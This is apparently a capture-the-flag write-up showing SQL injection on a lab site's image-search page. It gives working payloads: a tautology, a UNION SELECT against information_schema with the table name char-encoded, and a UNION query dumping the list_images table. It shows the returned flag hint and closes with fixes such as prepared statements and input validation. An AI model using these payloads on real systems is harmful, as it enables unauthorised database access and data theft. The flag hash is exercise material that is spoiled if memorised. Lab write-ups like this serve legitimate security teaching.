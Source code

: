 # SQL injection advanced
[http://10.203.72.119/index.php?page=searchimg](http://10.203.72.119/index.php?page=searchimg "image search") this page is also vunreable to ***sql injection***

## Method
If we insert ***1 or 1=1*** in the search text box we get back results of all the users in the database table.

With the sql statement below we will then get the all the columns form the list_images table.
``` sql
union select 1, column_name from information_schema.columns where table_name=char(108, 105, 115, 116, 095, 105, 109, 097, 103, 101,115) 
```
We then get the following columns that are in the list_images table.
1. id
1. url
1. title
1. comment

We then get all the rows for this table with this column information. This will be achieved with the following sql statement.
``` sql
1 union select 1, concat(id, url, title, comment) from list_images
```
We then get the instructions to get the flag
```
ID: 1 union select 1, concat(id, url, title, comment) from list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

## Solutions
1. Using prepared statements given that this site uses ***PHP***, prepared help the database distinguish between the ***code*** and ***user input***, by pre-compliling ***SQL*** statements to be then used as input. For ***PHP*** using ***PDO*** is one of the solutions.
1. Validating input, making use of ***regular expression*** to validate thee user input whether it matches the expected input, checking whether it contains special charcters, which would be incorrect if the input is to be a surname or name. This process can be called ***sanitization***.
1. ***Backend*** validation is very important.